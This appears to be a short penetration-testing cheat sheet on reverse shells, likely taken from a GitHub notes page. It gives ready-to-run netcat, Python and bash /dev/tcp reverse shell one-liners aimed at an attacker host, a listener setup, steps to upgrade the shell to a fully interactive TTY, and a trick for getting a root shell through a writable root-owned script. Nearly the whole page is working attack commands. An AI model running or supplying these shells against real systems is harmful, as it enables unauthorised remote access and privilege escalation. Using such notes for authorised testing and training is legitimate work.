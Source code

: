 
### Reverse Shells

* Setting up a reverse shell

* Set up in attacker machine:

```
nc -nlvp 4444
```

* Set up target machine:

```
nc -nv <Attacker IP> 4444 -e /bin/sh
```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<Attacker IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<br>

#### Upgrading Shells


* Once you get a shell for victim machine, we can upgrade it to make it more interactive:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

* To get a fully interactive shell, background the session (CTRL+ Z) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```
stty raw -echo
```

* Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```
export TERM=xterm
```

#### BASH reverse shells

```
bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'
```

<br>

#### BASH shell

* We can get an easy shell if we can control a .sh file for example that is owned by root, add the following code in the file and execute it:

```
#!/bin/sh
bash
```
